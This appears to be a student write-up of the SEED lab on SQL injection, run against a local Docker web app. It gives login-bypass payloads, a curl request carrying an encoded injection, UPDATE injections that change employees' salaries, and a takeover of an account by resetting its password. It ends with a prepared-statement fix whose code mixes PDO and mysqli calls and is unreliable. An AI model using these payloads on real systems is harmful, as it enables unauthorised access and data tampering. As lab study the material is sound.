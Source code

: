 * Setup
*** cd category-web/Web_SQL_Injection/Labsetup
*** docker-compose up
*** add 10.9.0.5 with host name www.seed-server.com in /etc/hosts file in the host machine
*** Go to www.seed-server.com and if you find the login page then the setup is complete


* Task 1
*** docker exec -it mysql-10.9.0.6 /bin/bash
*** mysql -u root -pdees
*** use sqllab_users;
*** show tables;
*** select * from credential where Name='Alice';
*** Get the screenshot

#+CAPTION: Employee Record of Alice
[[./screenshots/task-1-alice-record.png]]


* Task 2

** Task 2.1
*** Type {{admin';#}} in the username field and anything in the password field
#+CAPTION: Login as admin
[[./screenshots/task-2_1-login-admin.png]]
** Task 2.2
*** curl -s 'www.seed-server.com/unsafe_home.php?username=admin%27%3b%23&Password=123'
*** Run [[./scripts/task-2_2.sh]] to automatically verify whether the request can get you logged as admin.
** Task 2.3
*** The countermeasure that is preventing us to run two SQL statements is that PHP's mysqli::query() function doesn't support more than one query.
    And whenever we are trying to inject multiple queries the operation fails and we get syntax error.


* Task 3
** Task 3.1
*** Putting {{',salary=30000 where EID=10000;#}} in the NickName field will update the salary of Alice.
** Task 3.2
*** Get the Employee ID of Boby from the Admin page. (EID=20000)
*** Putting {{',salary=1 where EID=20000;#}} in the NickName field will update the salary of Boby.
** Task 3.3
*** Type {{Boby';#}} in the username field and anything in the password field and get access to Boby's profile page.
*** Simply go to the Edit Profile Page and insert a new password e.g. {{BadBossBoby}} in the Password Field and click Save.
*** Now we can sign in using {{Boby}} as username and {{BadBossBoby}} as password.


* Task 4
#+NAME: Prepared SQL
#+BEGIN_SRC php
$sql = "SELECT id, name, eid, salary, ssn FROM credential where name=:name and Password=:password";

if ($stmt = $conn->prepare($sql)) {
    $stmt->bindParam(':name', $input_uname);
    $stmt->bindParam(':password', $input_pwd);
    $stmt->execute();
    $result = $stmt->get_result();
    if ($result->num_rows > 0) {
        // only take the first row
        $firstrow = $result->fetch_assoc();
        $id     = $firstrow["id"];
        $name   = $firstrow["name"];
        $eid    = $firstrow["eid"];
        $salary = $firstrow["salary"];
        $ssn    = $firstrow["ssn"];
    }
}
#+END_SRC

#+CAPTION: Using prepared statements we are no longer able to inject SQL
[[./screenshots/task-4-safe-prepared-sql.png]]

